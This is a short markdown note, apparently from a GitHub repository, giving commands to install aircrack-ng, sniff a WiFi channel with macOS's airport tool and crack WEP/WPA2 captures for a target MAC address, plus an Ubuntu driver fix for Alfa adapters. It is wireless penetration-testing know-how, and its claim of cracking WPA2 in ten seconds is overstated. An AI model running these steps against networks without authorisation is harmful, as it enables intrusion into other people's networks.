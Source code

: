 ```yaml
---
title: "Wifi Cracking via Aircrack"
---
```


Deploy Aircrack for cracking WPA2 / WEP in 10 seconds. Written and based on **MacOS** host.

```
# => install macports
...

# => install aircrack-ng
$ sudo port install aircrack-ng

# => install latest XCode, with all Command Line Tools
...

# => create the following symlink
$ sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport

# => identity channel to sniff 
$ sudo airport -s

# => in another terminal
$ sudo airport en1 sniff [CHANNEL]

# => in another terminal
$ aircrack-ng -1 -a 1 -b [TARGET_MAC_ADDRESS] [CAP_FILE]
```

Note that the *cap_file* will be located in the `/tmp/airportSniff*.cap`.

---

Deploy Aircrack for **Ubuntu 16.04**, you will need to fix **AlfaNetwork** drivers.

```
$ echo "options rt2800pci  nohwcrypt=1" | sudo tee /etc/modprobe.d/rt2800pci.conf
$ sudo modprobe -rfv rt2800pci
$ sudo modprobe -v rt2800pci
```

Also check [WiFi Penetration Testing Guide](https://github.com/ricardojoserf/wifi-pentesting-guide) for more details.